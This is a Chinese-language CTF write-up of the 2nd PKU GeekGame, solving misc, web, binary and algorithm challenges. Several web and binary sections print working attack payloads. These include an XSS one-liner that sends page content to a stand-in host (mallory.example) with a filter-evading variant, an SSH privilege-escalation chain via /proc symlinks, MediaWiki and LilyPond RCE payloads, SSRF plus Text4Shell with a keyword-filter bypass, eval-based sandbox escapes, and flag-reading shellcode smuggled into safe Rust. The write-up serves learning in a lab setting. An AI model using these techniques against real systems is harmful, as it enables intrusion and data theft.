


# 2nd PKU GeekGame Writeup

wwx 2022-11-27

## Misc

### †签到†

解法同[第一届签到题](https://github.com/PKU-GeekGame/geekgame-1st/tree/9c33b29/writeups/xmcp#%E7%AD%BE%E5%88%B0-signin)。从 PDF 文件中复制文字，得到

```
fa{ecm_oPUGeGmV!
lgWloet_K_ekae2}
```

从上往下、从左往右读，获得 `flag{Welcome_to_PKU_GeekGameV2!}`。

### 小北问答 · 极速版

> 第 1 题：支持 WebP 图片格式的最早 Firefox 版本是多少？

可以在 [Can I Use 网站](https://caniuse.com/webp)查询，得到答案 65。

> 第 2 题：我刚刚在脑海中想了一个介于 _x_ 到 _y_ 之间的质数。猜猜它是多少？

可以在 [Wolfram|Alpha 网站](https://www.wolframalpha.com/input?i=primes+between+9110836610+9110836782)查询。

> 第 3 题：在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 _x_ 级关卡需要多少金钱？

在 GitHub 网站找到[第一届比赛源代码](https://github.com/PKU-GeekGame/geekgame-1st/blob/7e5f125/src/pygame/game/server/libtreasure.py#L19)，公式为 `300 + int(level**1.5)*100`。

> 第 4 题：北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？

找到[该论文](https://dl.acm.org/doi/abs/10.14778/2002974.2002976)，DOI 编号为 `10.14778/2002974.2002976`。

> 第 5 题：每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

安装该软件后，用酷安查看，得到包名 `cn.edu.pku.pkurunner`。

> 第 6 题：访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

打开浏览器开发者工具的「网络」面板，访问该链接，在「Host」后面找到答案 `ctf.xn--4gqwbu44czhc7w9a66k.com`。

> 第 7 题：我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

我不知道。

> 第 8 题：视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av\_\_\_\_ 访问。下划线内应填什么数字？

访问该视频，点击「分享」，再点击「嵌入代码」，查看剪贴板内容，在「aid」后面找到答案 418645518。

答对 7 道题，获得 Flag 1。Flag 2 不会了。

### 编原译理习题课

> 让 g++ 编译出的程序超过 8 MB 可以获得 Flag 1

可以参考 Code Golf SE 上的[这个问题](https://codegolf.stackexchange.com/q/69189)。

定义一个用非零常量初始化的、大小达到 8 MB 的全局变量，可产生超过 8 MB 的程序：

```cpp
int x[1 << 21] = {1};
int main() {}
```

> 让 g++ 输出的报错信息超过 2 MB 可以获得 Flag 2

可以参考 Code Golf SE 上的[另一个问题](https://codegolf.stackexchange.com/q/1956)。

让源文件包含自身，可产生大量报错信息：

```cpp
#include __FILE__
#include __FILE__
```

> 让 g++ 因为段错误而崩溃 可以获得 Flag 3

让编译器崩溃的就是编译器的 bug 了。在 GCC Bugzilla 搜索（按时间排序），可以在[一则 bug 报告](https://gcc.gnu.org/bugzilla/show_bug.cgi?id=105300)中找到让 g++ 崩溃的代码：

```cpp
void operator""_x(const char *, unsigned long);
static_assert(false, "foo"_x);
```

### Flag Checker

用 jadx 反编译 JAR 包，得到 `GeekGame.java` 文件。其中 `actionPerformed()` 函数有一处代码：

```java
if ("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4".equals(rot13(Base64.getEncoder()
  .encodeToString(this.textField1.getText().getBytes("UTF-8"))
))) {
  JOptionPane.showMessageDialog((Component) null, "Correct");
}
```

可见其中的字符串常量是 Flag 1 通过 Base64 和 ROT13 编码得到的。解码获得 `flag{s1mp1e-jvav_rev}`。

在 `GeekGame()` 构造函数中用 `StringBuilder` 生成了一段字符串。把相关的行复制到单独的 Java 文件中运行，得到输出：

<!-- prettier-ignore -->
```javascript
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

这是一段混淆过的 JavaScript 代码。将代码格式化，再手动翻译，得到：

```javascript
function checkflag2(input) {
  return JSON.stringify(input.split("").map((ch) => ch.charCodeAt(0))) ==
    JSON.stringify([
      102, 108, 97, 103, 123, 106, 97, 118, 97, 115, 99, 114, 105, 112, 116, 45,
      111, 98, 102, 117, 115, 99, 97, 116, 111, 114, 125,
    ])
    ? "Correct"
    : "Wrong";
}
```

可见其中的数组常量就是 Flag 2 的字符串编码。解码获得 `flag{javascript-obfuscator}`。

### 智慧检测器

> 让游戏崩溃可以获得 Flag 1，通关游戏可以获得 Flag 2。

游戏的 bug 在于位置移动的逻辑。相关代码简化如下（`prob03-src.py` 第 380 行）：

```python
NewDirection = input()
NewPos = list(CurPos)  # CurPos 为玩家当前位置

for NewDirection in NewDirections:
    移动位置(NewPos, NewDirection)
    if 位置超出地图边界(NewPos) or 位置有障碍物(NewPos):
        print("Invalid Direction")
        break

    CurPos = NewPos  # Bug

    if 位置是终点(CurPos):
        print("Congratulations!")
        break
```

其中 `CurPos = NewPos` 语句，使得 `CurPos` 与 `NewPos` 成为同一个对象的引用。此后对 `NewPos` 对象的修改，将同时引起 `CurPos` 的改变。那么，如果在一次输入中，先进行合法的移动，再进行一次非法的移动，在后一次移动时虽然循环提前终止，但是仍能改变 `CurPos`，使得玩家位置落在边界外或障碍物上。重复上述操作，就能逃离地图边界，引发 `IndexError`，获得 Flag 1。Flag 2 不会了。

### 小 Z 的服务器

> 看呐，小 Z 给组里的服务器装好了系统！
> 看呐，小 Z 在服务器上安装了 OpenSSH 服务！
> 看呐，小 Z 设置好了公钥登录！
> 看呐，小 Z 新建了一个管理员账号，在根目录放了一个 Flag！

题目明显地暗示我们通过 OpenSSH 服务的公钥登录来获取 admin1、admin2 用户的访问权限，从而读取根目录下的 Flag。服务器上涉及的文件如下：

| 文件路径                           | 所有者 | 权限         | 说明                               |
| ---------------------------------- | ------ | ------------ | ---------------------------------- |
| `/home/guest/`                     | guest  | `drwxr-x---` | guest、admin1、admin2 共用的家目录 |
| `/home/guest/.ssh/`                | guest  | `drwx------` | 存放上述用户的 ssh、sshd 配置      |
| `/home/guest/.ssh/authorized_keys` | guest  | `-rw-r--r--` | sshd 用于核查用户身份的公钥        |
| `/home/guest/.ssh/id_rsa`          | guest  | `-rw-r--r--` | guest 用于表明自己身份的密钥       |
| `/etc/guest.sh`                    | root   | `-rwxr-xr-x` | admin2 登录时运行的脚本            |
| `/flag1`                           | admin1 | `-r--------` | 好东西                             |
| `/flag2`                           | admin2 | `----------` | 好东西                             |

以 guest 身份登录后，直接尝试使用 `ssh admin1@localhost` 来登录 admin1。ssh 将尝试用 guest 的身份密钥 `.ssh/id_rsa` 来向 sshd 服务验证身份。理论上，sshd 将读取 admin1 家目录（也就是 guest 家目录）下的 `.ssh/authorized_keys`，而该文件的内容正是 guest 的公钥。从而，guest 就能成功通过 admin1 的身份验证。

尝试该命令后，ssh 意料之中地报告公钥登录失败。检查 sshd 的日志（自己部署一下题目环境），发现：

```
Could not open authorized keys '/home/guest/.ssh/authorized_keys': Permission denied
```

可见 sshd 以 admin1 身份读取 `authorized_keys` 时缺少权限。执行 `chmod 755 . .ssh` 即可修复。重新尝试公钥登录，仍然报错。检查日志发现：

```
Authentication refused: bad ownership or modes for file /home/guest/.ssh/authorized_keys
```

阅读 [`man sshd`](http://man.openbsd.org/sshd#FILES)，得知 `authorized_keys` 文件应当由要登录的用户（admin1）所有，或者由 root 所有，且不能对其他用户开放写入权限，否则 sshd 会忽略该文件。这就难办了。众所周知，Linux 下[普通用户不允许执行 `chown`](https://unix.stackexchange.com/q/27350)，我们不可能把 `authorized_keys` 的所有者转为 admin1 或者 root。

稍加思索，可以想到一种可能性，就是让 `authorized_keys` 变成符号链接，并指向一个由 root 所有的文件，后者对普通用户可读而不可写。

作为测试，找到符合上述条件的文件如 `/etc/passwd`，通过 `ln -s /etc/passwd .ssh/authorized_keys2` 创建符号连接，并尝试公钥登录。检查 sshd 日志，发现其确实读取了该文件。说明这种可能性是成立的。那么问题是如何控制这个文件的内容，使其包含 guest 的公钥。

既然文件由 root 所有，又要控制其内容，就涉及到提权。提权可以利用由 root 所有的、具有 setuid 权限的程序。普通用户运行这些程序时，进程的所有者将是 root。通过 `find / -perm -u=s -type f` 可以找到这样的程序，例如 `/usr/bin/chfn`。

但是这种程序并不具有修改任意文件的功能。那么问题是如何让其产生我们想要的文件。稍加思索，可以想到，根据一切皆文件的思想，任何进程都会在 `/proc/pid` 目录下产生一些与进程信息有关的文件。如果进程由 root 所有，那么这些文件也是 root 所有的，而且我们可以控制其中部分文件的内容。例如，`/proc/pid/cmdline` 保存了进程的 argv0，而 argv0 可以在执行程序时指定。

作为测试，执行 `bash -c "exec -a $'nyan\n' chfn" &`，检查 `/proc/$!/cmdline` 文件的所有者、权限和内容，发现该文件符合我们的全部要求。

综上所述，获取 Flag 1 的命令如下：

```sh
chmod 755 . .ssh
bash -c "exec -a $'$(cat .ssh/id_rsa.pub)\n' chfn" &
  # 文件结尾得有换行符
ln -sf /proc/$!/cmdline .ssh/authorized_keys2
ssh admin1@localhost chmod 666 /flag1
cat /flag1
```

用同样的方法就能登录 admin2。但是登录后不能直接访问 shell，而是执行 `/etc/guest.sh` 脚本，[这个脚本是无法绕过的](https://serverfault.com/a/823466)。该脚本又运行了 ssh，如果我们能改变 ssh 的行为，就能以 admin2 的身份执行任意命令，从而访问 `/flag2`。

ssh 会读取 admin2 家目录（也就是 guest 家目录）下的 `.ssh/config` 文件。阅读 [`man ssh_config`](http://man.openbsd.org/ssh_config#KnownHostsCommand)，可以找到 `KnownHostsCommand` 设置项，通过该设置可以执行任意命令。（有的设置项，如 `LocalCommand`，是不可用的，因为其中指定的命令会通过登录 shell 来运行，而登录 shell 是那个没有用的脚本，造成死循环。）

`config` 文件同样需要绕过权限检查。综上所述，获取 Flag 2 的命令如下：

```sh
bash -c "exec -a $'KnownHostsCommand /usr/bin/chmod 666 /flag2\n' chfn" &
  # 这里 chmod 得写完整路径
ln -sf /proc/$!/cmdline .ssh/config
ssh -F none admin2@localhost < /dev/null
  # -F none 防止这次执行时读取 .ssh/config
  # < /dev/null 防止其询问 nobody@localhost 的密码
cat /flag2
```

## Web

### 企鹅文档

反复刷新企鹅文档，有小概率看到受保护的单元格内有文字一闪而过。说明这些文字是在浏览器端隐藏的。用流量分析软件记录 `docs.qq.com` 的流量，搜索「机密 flag」字样，得知文档数据来自 `https://docs.qq.com/dop-api/get/sheet` 这个端点。从 JSON 数据中读出各单元格内容，得到链接：

```
https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next
```

打开链接，下载附件 HAR 包。网页上的图片显示该包是访问某篇企鹅文档时的流量记录。可以用重放攻击的思路还原文档内容。从包中导出 `https://docs.qq.com/dop-api/get/sheet` 端点的 JSON 响应，搭建服务器进行中间人攻击，使得该端点的请求均用保存的 JSON 作为响应（某些流量分析软件内置这种功能）。

再访问任意企鹅文档，发现网页上的文档内容被成功劫持。从文档中直接读出 Flag。



### 给钱不要！

访问「梗图网盘」，阅读前端的源代码，可见 XSS 攻击的漏洞：

```javascript
function go() {
  location.href = document.getElementById("filename").value + ".jpg";
}
```

只要在文本框中填入 `http:` URL，就能将网页重定向至攻击者的服务器；而填入 `javascript:` URL，就能在网页上运行攻击代码。例如，下面的 URL 能将包含 Flag 的内容发送给攻击者：

<!-- prettier-ignore -->
```javascript
javascript:location.href='http://mallory.example/?'+encodeURI(document.body.innerHTML)//
```

分析 XSS Bot 源代码 `prob06-xssbot.py`，可见其在填入文本框前，通过 `chrome://omnibox` 功能检测输入字符串的「安全性」。该网页是 Chrome 浏览器的地址栏调试工具。只有被 Chrome 识别为「query」或「unknown」的字符串才能被 XSS Bot 接受。访问该调试工具，输入上述 `javascript:` 代码，得知 Chrome 将其识别为「url」，从而被 XSS Bot 拒绝。

经反复测试，可发现不是所有的 `javascript:` 代码都会识别为「url」，有的代码会识别为「unknown」。事实上，通过 [Chromium 源代码](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#304)可以找到其识别逻辑：

```cpp
// Treat javascript: scheme queries followed by things that are unlikely to
// be code as UNKNOWN, rather than script to execute (URL).
if (RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
  return metrics::OmniboxInputType::UNKNOWN;
}
```

从正则表达式可见，如果代码中不包含 `;=()."` 等字符，就是安全的，能被 XSS Bot 接受。

> 也可以阅读[这篇知乎回答](https://www.zhihu.com/answer/2722866208)：
>
> [](https://www.zhihu.com/answer/2722866208)

要让代码中避免上述字符，可将代码写成字符串字面量，其中的不安全字符都用 `\x__` 进行转义，再把字符串用 `eval()`、`Function()` 等方式求值。单引号是一个安全字符，可用其表示字符串字面量。调用函数时不用括号较为麻烦，但也有[若干种方法](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)，如通过[带标签的模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Template_literals#%E5%B8%A6%E6%A0%87%E7%AD%BE%E7%9A%84%E6%A8%A1%E6%9D%BF%E5%AD%97%E7%AC%A6%E4%B8%B2)。最终的攻击代码如下：

<!-- prettier-ignore -->
````javascript
javascript:Function`location\x2ehref\x3d'http://mallory\x2eexample/?'+encodeURI\x28document\x2ebody\x2einnerHTML\x29```//
````

搭建好服务器，用上述网址可以获得 Flag 2。要获得 Flag 1，需要使字符串识别成最安全的「query」，并将网页重定向至以 `GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%` 为标题的攻击者页面。

进一步分析 Chromium 源代码，寻找识别为「query」的条件。注意到 XSS Bot 通过 `remove_protocols()` 函数，帮我们在检测前移除了 URL 前的 `http://`。可以发现，如果[将 IPv4 地址用十进制数表示](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#450)，并加入莫名其妙的用户名部分，就能让 URL 变得安全：

```
http://x:@3221226222/?
```

搭建好服务器，用上述网址可以获得 Flag 1。

### 私有笔记

访问 wiki 站点的首页，可见「flag」链接，指向一个隐藏页面。首页提示我们利用 CVE 漏洞，还给出了「版本」页面的链接，通过「版本」页面可见 MediaWiki 的版本是 1.34.4。在 CVE 数据库中搜索[「MediaWiki」「private wiki」相关漏洞](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mediawiki+private+wiki)，可以找到：

> [CVE-2021-45038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45038) An issue was discovered in MediaWiki before 1.35.5, 1.36.x before 1.36.3, and 1.37.x before 1.37.1. By using an action=rollback query, attackers can view private wiki contents.

在 [MediaWiki 安全公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)中找到该漏洞的利用方式，得知可通过以下链接获取 Flag 页面的内容：

```
https://prob07-deadbeef.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```

页面包含 Flag 1 和登录信息，并提示通过远程代码执行（RCE）来获取 Flag 2：

> You can use the following username and password to login:
>
> - User name: Flag1
> - Password: flag{insecure_01d_mediavviki}
>
> Try RCE to find Flag 2.

「版本」页面显示该站点安装了名为[「Score」](https://www.mediawiki.org/wiki/Extension:Score)的可疑的扩展程序，描述称「添加一个标记来以 LilyPond 呈现乐谱」。在 CVE 数据库中搜索相关漏洞，可以找到：

> [CVE-2020-17353](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17353) scm/define-stencil-commands.scm in LilyPond through 2.20.0, and 2.21.x through 2.21.4, when -dsafe is used, lacks restrictions on embedded-ps and embedded-svg, as demonstrated by including dangerous PostScript code.

在 [Wikimedia Phabricator](https://phabricator.wikimedia.org/T257062) 中找到该漏洞的利用方式，得知可通过以下 Wiki Markup 代码来实现远程代码执行：

```
<score>\new Staff <<{c^#

(object->string (call-with-input-file "/flag2" read))

}>></score>
```

其中第二行是 Scheme 代码，可在[这里](https://www.gnu.org/software/guile/manual/)阅读 Scheme 的文档。在登录站点后进入编辑页面，输入上述代码，点击「预览」，从产生的图片中读出 Flag 2：



### 企业级理解

> 本题不需要爆破密码。三个 Flag 分别需要绕过登录页面访问管理后台、访问本机上的 bonus 服务、通过 bonus 服务在机器上执行命令。

阅读提供的源代码，得知该站点管理后台位于 `/admin` 端点，而该端点需要登录。`httpFirewall()` 方法中写到 `setAllowBackSlash(true);`。这提示我们在网址后面加上一个斜杠，即访问 `/admin/`，就能绕过登录检查。

打开浏览器开发者工具，阅读管理后台前端的源代码，可知该网页会向 `/admin/query` 端点提交表单。在 DOM 中把端点改成 `/admin/query/`，以绕过登录检查。表单的 `type` 下拉菜单有「PKU」「PKUGame」「PKU_GeekGame」等选项，选择最长的选项。在文本框中随便填入内容，点击「Click」，发现文本框内容变为服务器回传的一段 JSON，其中包含 Flag 1。

前端源代码中的一则注释提示我们通过 `/admin/source_bak/` 获得后端的源代码。源代码的部分内容简化如下：

```java
WebClient webClient = WebClient.builder()
    .baseUrl("http://localhost:8079/").build();

@RequestMapping("/admin/{index}")
public String adminIndex(
    @PathVariable(name="index") String index, String auth, QueryBean queryBean
) {
    if (index != null & index.contains("%")) {
        index = URLDecoder.decode(index, "UTF-8");
    }
    // ...

    Mono str = webClient.post()
        .uri(index)
    // ...
}
```

可见后端把请求转发给了 8079 端口的 backend 服务。可以通过服务端请求伪造攻击来访问 8080 端口的 bonus 服务，只需要在 `/admin/` 后加上适当编码的 bonus 端点地址。在浏览器控制台运行以下代码，把表单目标设置为 bonus 服务：

```javascript
const endpoint = "/"; // bonus 服务上要访问的端点

const backend_base = "/admin/";
const bonus_base = "http://localhost:8080";
const url =
  backend_base + encodeURI(encodeURIComponent(bonus_base + endpoint)) + "/";

document.querySelector(".form-signin").action = url;
```

访问 `/` 端点后收到回复 `Endpoints:/bonus/source_bak`。访问 `/bonus` 端点，获得 Flag 2。访问 `/source_bak` 端点，得到 bonus 服务的源代码。最后的 Flag 需要利用远程代码执行。源代码显示其使用了 Commons Text 库，该库存在「Text4Shell」漏洞（CVE-2022-42889）。通过下面的攻击字符串可以读取 `/root/flag3.txt` 的内容：

```
${script:javascript:(new java.util.Scanner(new java.io.File("/root/flag3.txt"))).nextLine()}
```

bonus 服务会把输入字符串中的「java」「script」等不安全词语替换成空字符串。只需把字符串中「java」改写成「jaJAVAva」，在一次替换后就能回到「java」，从而绕过不安全词语检查。在网页上，把端点设置为 bonus 服务的 `/bonus`，把 `type` 字段设置为 `CommonsText`，在文本框内填入替换后的攻击字符串，点击「Click」，获得 Flag 3。

### 这也能卷

访问「Simple Calculator」，阅读前端的源代码，在 `main.js` 末尾找到隐藏功能的访问方式：

```javascript
if (localStorage.getItem("i_am_premium_user") === "true") {
  import("./main-premium.js");
}
```

通过浏览器开发者工具，在本地存储中添加 `i_am_premium_user` 字段，刷新网页，发现下拉菜单中多出「Node.JS」「Browser」选项。阅读 `main-premium.js` 代码，得知选择这两个选项后，点击「=」时文本框内容将会发给服务器。

阅读后端的源代码，得知服务器首先会用下面的正则表达式检查输入内容（`index.js` 第 19 行）：

```
^([a-z0-9+\-*/%(), ]|([0-9]+[.])+[0-9]+)+$
```

选择「Node.JS」选项时，输入内容将传给单独进程中运行的 `runner.js`（`sandbox.js` 第 14 行）；选择「Chrome」选项时，输入内容将传给 Chrome 浏览器（`sandbox.js` 第 32 行），浏览器访问的页面是 `sandbox.html`，其中包含 Flag：

```html
<script>
  const flag = /* What's this? */;
</script>
```

上述两种后端，最终都把输入内容进行 `eval()`，因此我们可以在计算器输入框中输入 JavaScript 表达式，让服务器运行。尝试填入 `flag`，在下拉菜单中选择「Chrome」，点击「=」。理论上，我们将收到后端的 Chrome 传回的 Flag 内容。结果显示：

```
no geek, no flag
```

可见，`sandbox.html` 中的那段代码另有玄机。我们希望 Chrome 运行 `document.head.innerHTML` 这行代码，从而传回 `sandbox.html` 的完整内容。为此，需要对这段代码进行改写，以通过正则表达式检测。

思路类似前题[《给钱不要！》](#%E7%BB%99%E9%92%B1%E4%B8%8D%E8%A6%81%EF%BC%81)。常用于转义的 `\` 字符不可用，但可用的字符包含 `%` 符号，因此可将代码写成字符串字面量，其中的非法字符都用 `%__` 进行转义，再用 `unescape()` 函数还原，最后通过 `eval()` 求值。单引号、双引号、反引号都不可用，所以没法直接表达字符串字面量，但幸运的是 `/` 是可用的，而后者可以表达正则表达式字面量。将正则表达式转换成字符串时，前后多出了 `/` 字符，可以变成除号或注释的一部分。最终可用下面的 JavaScript 脚本生成攻击代码：

```javascript
const code = "document.head.innerHTML";

const escaped = code
  .split("")
  .map((c) => (/[a-z0-9 ]/.test(c) ? c : "%" + c.charCodeAt(0).toString(16)))
  .join("");

console.log(`eval(unescape(0+/0,${escaped}%2f/))`);
```

输入计算器后获得 Flag：

<!-- prettier-ignore -->
```html
<script>
  const flag = (() => {
    const FLAG = `flag{reg3x_byp4ss_made_easy}`
    return 'no geek, no flag'
  })()
</script>
```

对于「Node.JS」后端，猜测需要读取服务器上的 `/flag` 文件内容。将下面这行代码转义后输入计算器（注意到 `runner.js` 会帮我们等待 `Promise`）：

<!-- No semicolon after expression, thanks -->
<!-- prettier-ignore -->
```javascript
import("fs").then(fs => fs.readFileSync("/flag", "utf-8"))
```

发现结果为 HTTP 500。阅读报错信息，得知 `runner.js` 进程启用了 [Node.js 的 policy 功能](https://nodejs.org/docs/latest-v19.x/api/permissions.html)，基本上禁止使用 `import`。

> policy 是一个实验性功能，看起来它并不能阻止所有的不安全 `import`，比如[这则 issue](https://github.com/nodejs/node/issues/45359)：
>
> [](https://github.com/nodejs/node/issues/45359)
>
> 不过 issue 中提出的 `module.require` 对本题没有帮助，因为 `runner.js` 是一个 ECMAScript 模块，没有 `module` 全局变量。

不使用 `import`，可以直接通过更底层的内部模块 [`process.binding("fs")`](https://stackoverflow.com/q/24042861/7550087) 来操作文件系统。将下面的代码转义，输入计算器后获得第二个 Flag：

<!-- No semicolon after expression, thanks -->
<!-- prettier-ignore -->
```javascript
(() => {
  const { open, read, close } = process.binding("fs");
  const fd = open("/flag", 0, 0, 0, 0);
  const buf = Buffer.alloc(999);
  read(fd, buf, 0, 999, 0, 0, 0);
  close(fd, 0, 0);
  return buf.toString();
})()
```

还缺少 Flag 1。重新检查「Simple Calculator」网页，发现右上角有一个「Premium」按钮，点击后到达 `premium.html` 网页。检查源代码，得到混淆过的 `premium.js`。将代码格式化，发现其中若干变量名没有被混淆，包括 `flag0` 变量。提取并执行 `flag0` 相关的代码（原文件第 45954 到 46217 字符），得到 Flag 1。

## Binary

Binary 不太会，只写了两道题。

### 简单题

[Capstone 反汇编器](http://www.capstone-engine.org/skipdata.html)使用线性扫描反汇编算法。可以在每条汇编指令之间插入干扰数据，来欺骗反汇编器。将指令长度控制在 4 字节，然后在每条指令前插入：

```asm
jmp   0x1
.byte 0xe9
// 原有指令
```

则程序的行为不变，而 `0xe9` 及之后的 4 个字节将在反编译时被误当作另一条 `jmp` 指令。从而反汇编器只报告了 `jmp` 这一种指令。

用 pwntools 生成读取 `/flag.txt` 的汇编代码：

```python
from pwn import *

print(shellcraft.amd64.linux.cat("/flag.txt"))
```

结尾补上 `ret` 指令，得到：

```asm
/* push b'/flag.txt\x00' */
push 0x74
mov rax, 0x78742e67616c662f
push rax
/* call open('rsp', 'O_RDONLY', 'rdx') */
push SYS_open /* 2 */
pop rax
mov rdi, rsp
xor esi, esi /* O_RDONLY */
syscall
/* call sendfile(1, 'rax', 0, 0x7fffffff) */
mov r10d, 0x7fffffff
mov rsi, rax
push SYS_sendfile /* 0x28 */
pop rax
push 1
pop rdi
cdq /* rdx=0 */
syscall
ret
```

其中有两处 `mov` 指令编码长度超过了 4 字节，进行手动改写。如 `mov r10d, 0x7fffffff` 改写为：

```asm
xor r10d, r10d
add r10d, 1
shl r10d, 31
sub r10d, 1
```

从而所有指令长度都不超过 4 字节，不足的可用 `.align 4` 补齐。用 pwntools 生成机器码，提交后获得 Flag：

```python
from pwn import *
from base64 import b64encode

context.update(arch="amd64", os="linux")

with open("prob10.asm") as file:
    code = file.read()

result = bytearray()
for line in code.split("\n"):
    if line == "" or line.startswith("/*"):
        continue
    result += bytearray([0xEB, 0x01, 0xE9])
    result += asm(line + "\n.align 4")

print(b64encode(result))
```

### 编原译理习题课 · 实验班

在 Rust 的 issues 中搜索[「unsafe」「unsound」相关问题](https://github.com/rust-lang/rust/issues?q=unsafe+is%3Aopen+in%3Atitle+label%3AI-unsound)，注意到[一则评论中的代码](https://github.com/rust-lang/rust/issues/28179#issuecomment-361320369)：

```rust
#![no_main]

#[link_section = ".text"]
#[no_mangle]
pub static main: [u32; 9] = [
    3237986353, 3355442993, 120950088, 822083584, 252621522, 1699267333,
    745499756, 1919899424, 169960556,
];
```

这段代码用到的 [`link_section` 属性](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)可以指定函数或静态变量在目标文件中的位置。指定 `#[link_section = ".text"]`，就能将任意机器代码放入可执行的节。这样的代码能绕开 Rust 的 unsafe 检查。

那么问题是如何使插入的机器代码被运行，当然不能从 Rust 中直接调用。可以想到目标文件中还有其他有用的节，例如 `.init_array` 节，其中存放的函数指针会在 `main` 之前被运行。在其中放入指向插入的机器代码的指针，就能执行想要的功能，同时完全避免 `main` 中设置的 seccomp 限制。

用 pwntools 生成读取 `/flag2` 的机器代码：

```python
from pwn import *

context.update(arch="amd64", os="linux")
code = asm(shellcraft.amd64.linux.cat("/flag2"))

for i in range(0, len(code), 4):
    print(f"0x{int.from_bytes(code[i:i+4], 'little'):08x},")
```

将生成的机器代码编入 Safe Rust，提交后获得两个 Flag：

```rust
#![forbid(unsafe_code)]

pub fn run() {}

#[link_section = ".init_array"]
#[used]
static BAD: &[u32] = &EVIL;

#[link_section = ".text"]
static EVIL: [u32; 14] = [
    0x0101b848, 0x01010101, 0x48500101, 0x6d672eb8, 0x01336660, 0x04314801,
    0x58026a24, 0x31e78948, 0x41050ff6, 0xffffffba, 0xc689487f, 0x6a58286a,
    0x0f995f01, 0x00000005
];
```

## Algorithm

Algorithm 更不太会，只完整地写了一道题。

### 381654729

分析 `prob16.py`，得知要寻找「累进可除数」，且该数与某魔法数字的异或值是一串可打印字符串的编码。下面的 Python 程序用穷举法搜索该数，获得 `flag{FOUnd_magic_Number}`：

```python
magic_num = 0x666C616778080513EF0292EB658B66E259E5364B6BE7F4B2


def print_solution(num):
    bytes = (magic_num ^ num).to_bytes(len(hex(magic_num)), "big")
    print(bytes.decode())
    exit(0)


def solve(num, num_len, i):
    shift = num_len - i * 4
    for x in range(16 if offset % 8 == 0 else 8):
        num_new = num ^ (x << shift)
        if (num_new >> shift) % i > 0:
            continue
        if offset == 0:
            print_solution(num_new)
        if num_new >> shift == 0:
            solve(num_new, num_len - 4, 1)
        else:
            solve(num_new, num_len, i + 1)


solve(magic_num, (len(hex(magic_num)) - 2) * 4, 1)
```

### 方程组

分析 `prob.py`，得知要解线性丢番图方程组。用下面的 Mathematica 程序求解：

```mathematica
rhs = {16404, 16416, 16512, 16515, 16557, 16791, 16844, 16394, 15927,
    15942, 15896, 15433, 15469, 15553, 15547, 15507, 15615, 15548,
    15557, 15677, 15802, 15770, 15914, 15957, 16049, 16163} // N;
n = Length[rhs];

primes = Sqrt@Prime@Range[n] // N;
coeff = NestList[RotateRight, primes, n - 1];

solution = Inverse[coeff] . rhs;

FromCharacterCode[Round[solution]]
```

